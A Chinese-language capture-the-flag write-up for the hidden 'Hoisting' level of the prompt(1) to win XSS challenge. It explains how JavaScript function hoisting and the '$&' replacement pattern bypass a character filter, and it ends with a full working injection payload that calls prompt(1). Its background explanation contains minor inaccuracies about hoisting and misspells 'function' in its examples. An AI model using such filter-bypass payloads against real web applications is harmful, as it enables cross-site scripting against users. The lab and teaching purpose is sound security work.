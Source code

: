 ## [[prompt(1) to win](http://prompt.ml)] [[Level H1 – Hoisting](http://prompt.ml/-1)] [[解题报告](http://exp-blog.com/2019/06/09/pid-3891/)]

------

## 题目（隐藏关卡）

```javascript
function escape(input) {
    // WORLD -1

    // strip off certain characters from breaking conditional statement
    input = input.replace(/[}<]/g, '');

    return '                                                     \n\
<script>                                                         \n\
    if (history.length > 1337) {                                 \n\
        // you can inject any code here                          \n\
        // as long as it will be executed                        \n\
        {{injection}}                                            \n\
    }                                                            \n\
</script>                                                        \n\
    '.replace('{{injection}}', input);
}
```

------------

## 分析

从代码可以知道，注入点在 `if` 内部，很自然有三种思路：

- 使得 `history.length > 1337` 条件成立
- 闭合 `if`
- 闭合 `<script>`

但是由于 `}` 和 `<` 被过滤了，因此不论闭合 `if` 还是 `<script>` 都是不可能的，剩下的方法就是想办法令到 `history.length > 1337` 条件成立。

------------

## 前置知识

- [history](http://www.w3school.com.cn/jsref/dom_obj_history.asp)
- [Function length](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Function/length)
- [Function Hoisting](https://elegantcode.com/2011/03/24/basic-javascript-part-12-function-hoisting/)
- [String.prototype.replace()](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace)

------------

## 解题思路

这三个知识点是这题的解题关键。

关于 `history` 对象，需要知道的是它不可被直接读写，目前唯一保留的 API 只有 4 个：`length` 、 `back()` 、 `forward()` 、 `go()` 。

而在本题中用到的 `length` ，它会在首次打开浏览器窗口的时候置 0 ，每访问一个新得页面自动 +1 。但是这个特性并不能被利用来解题，原因是 `length` 得上限值是 50，而条件中的目标值是 1337 ，即使我们预先访问了 1337 个页面， `length` 的值还是 50 ，仍然无法绕过条件。

------------


但这并不意味着毫无办法了：因为 `history` 说到底就是一个全局对象，我们可以构造一个同名的 `history` 对象（必定是局部对象）实现对全局对象的覆盖。同时只要所构造的这个 `history` 局部对象同样具备 `length` 属性，且可以被我们自由控制，那么就能实现 `if` 条件绕过了。

既然可以使用局部对象覆盖，那么就有两个选择：

- 局部变量（如数组）：可以初始化数组的元素个数控制 `length` 属性
- 局部函数 ：可以通过声明入参的个数控制 `length` 属性

但是不要忘了，我们的注入点是在 `if` 里面的，亦即不管我们声明 `history` 局部函数、还是声明 `history` 局部变量，都是在 `history.length` 条件后面的位置，亦即会出现 **先使用后声明** 的语法错误。

------------


而为了解决这个问题，可以利用 Javascript 中的 Hoisting （提升）机制：在早期的 Javascript 编译器中，会把所有出现在代码中的 变量声明 或 函数声明，全部移到代码的开头。

不过 变量提升 和 函数提升 之间还是存在区别的：

- 变量提升：仅仅是把 声明变量的语句 提升到代码的开头，但是初始化语句还是保留在原有位置不变的，如果在初始化语句之前就使用了该变量，依然会出现语法错误（变量未定义）
- 函数提升：函数不存在初始化的说法，从而因为提升机制，使得函数只要在任意地方声明过一次，就可以在任何位置调用。

回到这题，由于注入点在 `if` 里面，所有我们应该选择函数提升，而不是变量提升。

> Javascript 的 Hoisting 机制仅在早期的编译器支持，现在 9102 年绝大部分浏览器都不会这样做了，经测试只有 IE10 还支持这种机制，换言之要用 Hoisting 机制解题，只能使用 IE10 浏览器。

------------

## 构造 payload

根据前面的思路，我们构造 payload 的方法为：在注入点声明一个 `history` 局部函数，函数入参数量至少为 1338 ，就能使得 `if` 条件成立，从而执行我们注入的代码。

例如 payload 为：

```javascript
funcation history(a1, a2, a3, ......, a1338) { /* any codes */ } prompt(1);
```

不过这个 payload 有个问题：就是我们要构造 `history` 函数，就需要使用到花括号 `{ }` ，但是 `}` 已经被题目过滤了 ！换言之我们不能直接输入 `}` 。

不能直接输入，但是可以间接输入。

绕过的方法需要利用到题目 JS 的 `replace('{{injection}}', input)` 函数的语法，第二个由我们控制的参数 input 是可以插入特殊变量名以达到某些效果的（详见 [这里](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace) ）：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%20H1%20-%20Hoisting/imgs/01.png)

而我们要使用的特殊变量名，就是

```
$&      // 这个变量名的效果是 【插入当前匹配的子串自身】。
```

就这题而言，因为 `replace('{{injection}}', input)` 被匹配的子串必定是 `{{injection}}`，利用 `$&` 将其插入到我们的 payload ，就能获得两对花括号 `{{ }}` 了，而里面的一对花括号会被编译器认为是局部代码块，因此并不会影响语法。

所以我们应该构造的 payload 为 ：

```javascript
funcation history(a1, a2, a3, ......, a1338) $& prompt(1);
```

当这个 payload 经过题目的 `replace('{{injection}}', input)` 函数处理，就会得到我们想要的效果：

```javascript
<script>
    if (history.length > 1337) {
        funcation history(a1, a2, a3, ......, a1338) {{injection}} prompt(1);
    }
</script>
```

------------

## 完成挑战

最后，输入这个 payload 到 IE10 即可完成挑战：

```javascript
function history(a1,a2,a3,a4,a5,a6,a7,a8,a9,a10,a11,a12,a13,a14,a15,a16,a17,a18,a19,a20,a21,a22,a23,a24,a25,a26,a27,a28,a29,a30,a31,a32,a33,a34,a35,a36,a37,a38,a39,a40,a41,a42,a43,a44,a45,a46,a47,a48,a49,a50,a51,a52,a53,a54,a55,a56,a57,a58,a59,a60,a61,a62,a63,a64,a65,a66,a67,a68,a69,a70,a71,a72,a73,a74,a75,a76,a77,a78,a79,a80,a81,a82,a83,a84,a85,a86,a87,a88,a89,a90,a91,a92,a93,a94,a95,a96,a97,a98,a99,a100,a101,a102,a103,a104,a105,a106,a107,a108,a109,a110,a111,a112,a113,a114,a115,a116,a117,a118,a119,a120,a121,a122,a123,a124,a125,a126,a127,a128,a129,a130,a131,a132,a133,a134,a135,a136,a137,a138,a139,a140,a141,a142,a143,a144,a145,a146,a147,a148,a149,a150,a151,a152,a153,a154,a155,a156,a157,a158,a159,a160,a161,a162,a163,a164,a165,a166,a167,a168,a169,a170,a171,a172,a173,a174,a175,a176,a177,a178,a179,a180,a181,a182,a183,a184,a185,a186,a187,a188,a189,a190,a191,a192,a193,a194,a195,a196,a197,a198,a199,a200,a201,a202,a203,a204,a205,a206,a207,a208,a209,a210,a211,a212,a213,a214,a215,a216,a217,a218,a219,a220,a221,a222,a223,a224,a225,a226,a227,a228,a229,a230,a231,a232,a233,a234,a235,a236,a237,a238,a239,a240,a241,a242,a243,a244,a245,a246,a247,a248,a249,a250,a251,a252,a253,a254,a255,a256,a257,a258,a259,a260,a261,a262,a263,a264,a265,a266,a267,a268,a269,a270,a271,a272,a273,a274,a275,a276,a277,a278,a279,a280,a281,a282,a283,a284,a285,a286,a287,a288,a289,a290,a291,a292,a293,a294,a295,a296,a297,a298,a299,a300,a301,a302,a303,a304,a305,a306,a307,a308,a309,a310,a311,a312,a313,a314,a315,a316,a317,a318,a319,a320,a321,a322,a323,a324,a325,a326,a327,a328,a329,a330,a331,a332,a333,a334,a335,a336,a337,a338,a339,a340,a341,a342,a343,a344,a345,a346,a347,a348,a349,a350,a351,a352,a353,a354,a355,a356,a357,a358,a359,a360,a361,a362,a363,a364,a365,a366,a367,a368,a369,a370,a371,a372,a373,a374,a375,a376,a377,a378,a379,a380,a381,a382,a383,a384,a385,a386,a387,a388,a389,a390,a391,a392,a393,a394,a395,a396,a397,a398,a399,a400,a401,a402,a403,a404,a405,a406,a407,a408,a409,a410,a411,a412,a413,a414,a415,a416,a417,a418,a419,a420,a421,a422,a423,a424,a425,a426,a427,a428,a429,a430,a431,a432,a433,a434,a435,a436,a437,a438,a439,a440,a441,a442,a443,a444,a445,a446,a447,a448,a449,a450,a451,a452,a453,a454,a455,a456,a457,a458,a459,a460,a461,a462,a463,a464,a465,a466,a467,a468,a469,a470,a471,a472,a473,a474,a475,a476,a477,a478,a479,a480,a481,a482,a483,a484,a485,a486,a487,a488,a489,a490,a491,a492,a493,a494,a495,a496,a497,a498,a499,a500,a501,a502,a503,a504,a505,a506,a507,a508,a509,a510,a511,a512,a513,a514,a515,a516,a517,a518,a519,a520,a521,a522,a523,a524,a525,a526,a527,a528,a529,a530,a531,a532,a533,a534,a535,a536,a537,a538,a539,a540,a541,a542,a543,a544,a545,a546,a547,a548,a549,a550,a551,a552,a553,a554,a555,a556,a557,a558,a559,a560,a561,a562,a563,a564,a565,a566,a567,a568,a569,a570,a571,a572,a573,a574,a575,a576,a577,a578,a579,a580,a581,a582,a583,a584,a585,a586,a587,a588,a589,a590,a591,a592,a593,a594,a595,a596,a597,a598,a599,a600,a601,a602,a603,a604,a605,a606,a607,a608,a609,a610,a611,a612,a613,a614,a615,a616,a617,a618,a619,a620,a621,a622,a623,a624,a625,a626,a627,a628,a629,a630,a631,a632,a633,a634,a635,a636,a637,a638,a639,a640,a641,a642,a643,a644,a645,a646,a647,a648,a649,a650,a651,a652,a653,a654,a655,a656,a657,a658,a659,a660,a661,a662,a663,a664,a665,a666,a667,a668,a669,a670,a671,a672,a673,a674,a675,a676,a677,a678,a679,a680,a681,a682,a683,a684,a685,a686,a687,a688,a689,a690,a691,a692,a693,a694,a695,a696,a697,a698,a699,a700,a701,a702,a703,a704,a705,a706,a707,a708,a709,a710,a711,a712,a713,a714,a715,a716,a717,a718,a719,a720,a721,a722,a723,a724,a725,a726,a727,a728,a729,a730,a731,a732,a733,a734,a735,a736,a737,a738,a739,a740,a741,a742,a743,a744,a745,a746,a747,a748,a749,a750,a751,a752,a753,a754,a755,a756,a757,a758,a759,a760,a761,a762,a763,a764,a765,a766,a767,a768,a769,a770,a771,a772,a773,a774,a775,a776,a777,a778,a779,a780,a781,a782,a783,a784,a785,a786,a787,a788,a789,a790,a791,a792,a793,a794,a795,a796,a797,a798,a799,a800,a801,a802,a803,a804,a805,a806,a807,a808,a809,a810,a811,a812,a813,a814,a815,a816,a817,a818,a819,a820,a821,a822,a823,a824,a825,a826,a827,a828,a829,a830,a831,a832,a833,a834,a835,a836,a837,a838,a839,a840,a841,a842,a843,a844,a845,a846,a847,a848,a849,a850,a851,a852,a853,a854,a855,a856,a857,a858,a859,a860,a861,a862,a863,a864,a865,a866,a867,a868,a869,a870,a871,a872,a873,a874,a875,a876,a877,a878,a879,a880,a881,a882,a883,a884,a885,a886,a887,a888,a889,a890,a891,a892,a893,a894,a895,a896,a897,a898,a899,a900,a901,a902,a903,a904,a905,a906,a907,a908,a909,a910,a911,a912,a913,a914,a915,a916,a917,a918,a919,a920,a921,a922,a923,a924,a925,a926,a927,a928,a929,a930,a931,a932,a933,a934,a935,a936,a937,a938,a939,a940,a941,a942,a943,a944,a945,a946,a947,a948,a949,a950,a951,a952,a953,a954,a955,a956,a957,a958,a959,a960,a961,a962,a963,a964,a965,a966,a967,a968,a969,a970,a971,a972,a973,a974,a975,a976,a977,a978,a979,a980,a981,a982,a983,a984,a985,a986,a987,a988,a989,a990,a991,a992,a993,a994,a995,a996,a997,a998,a999,a1000,a1001,a1002,a1003,a1004,a1005,a1006,a1007,a1008,a1009,a1010,a1011,a1012,a1013,a1014,a1015,a1016,a1017,a1018,a1019,a1020,a1021,a1022,a1023,a1024,a1025,a1026,a1027,a1028,a1029,a1030,a1031,a1032,a1033,a1034,a1035,a1036,a1037,a1038,a1039,a1040,a1041,a1042,a1043,a1044,a1045,a1046,a1047,a1048,a1049,a1050,a1051,a1052,a1053,a1054,a1055,a1056,a1057,a1058,a1059,a1060,a1061,a1062,a1063,a1064,a1065,a1066,a1067,a1068,a1069,a1070,a1071,a1072,a1073,a1074,a1075,a1076,a1077,a1078,a1079,a1080,a1081,a1082,a1083,a1084,a1085,a1086,a1087,a1088,a1089,a1090,a1091,a1092,a1093,a1094,a1095,a1096,a1097,a1098,a1099,a1100,a1101,a1102,a1103,a1104,a1105,a1106,a1107,a1108,a1109,a1110,a1111,a1112,a1113,a1114,a1115,a1116,a1117,a1118,a1119,a1120,a1121,a1122,a1123,a1124,a1125,a1126,a1127,a1128,a1129,a1130,a1131,a1132,a1133,a1134,a1135,a1136,a1137,a1138,a1139,a1140,a1141,a1142,a1143,a1144,a1145,a1146,a1147,a1148,a1149,a1150,a1151,a1152,a1153,a1154,a1155,a1156,a1157,a1158,a1159,a1160,a1161,a1162,a1163,a1164,a1165,a1166,a1167,a1168,a1169,a1170,a1171,a1172,a1173,a1174,a1175,a1176,a1177,a1178,a1179,a1180,a1181,a1182,a1183,a1184,a1185,a1186,a1187,a1188,a1189,a1190,a1191,a1192,a1193,a1194,a1195,a1196,a1197,a1198,a1199,a1200,a1201,a1202,a1203,a1204,a1205,a1206,a1207,a1208,a1209,a1210,a1211,a1212,a1213,a1214,a1215,a1216,a1217,a1218,a1219,a1220,a1221,a1222,a1223,a1224,a1225,a1226,a1227,a1228,a1229,a1230,a1231,a1232,a1233,a1234,a1235,a1236,a1237,a1238,a1239,a1240,a1241,a1242,a1243,a1244,a1245,a1246,a1247,a1248,a1249,a1250,a1251,a1252,a1253,a1254,a1255,a1256,a1257,a1258,a1259,a1260,a1261,a1262,a1263,a1264,a1265,a1266,a1267,a1268,a1269,a1270,a1271,a1272,a1273,a1274,a1275,a1276,a1277,a1278,a1279,a1280,a1281,a1282,a1283,a1284,a1285,a1286,a1287,a1288,a1289,a1290,a1291,a1292,a1293,a1294,a1295,a1296,a1297,a1298,a1299,a1300,a1301,a1302,a1303,a1304,a1305,a1306,a1307,a1308,a1309,a1310,a1311,a1312,a1313,a1314,a1315,a1316,a1317,a1318,a1319,a1320,a1321,a1322,a1323,a1324,a1325,a1326,a1327,a1328,a1329,a1330,a1331,a1332,a1333,a1334,a1335,a1336,a1337,a1338) $& prompt(1);
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%20H1%20-%20Hoisting/imgs/02.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
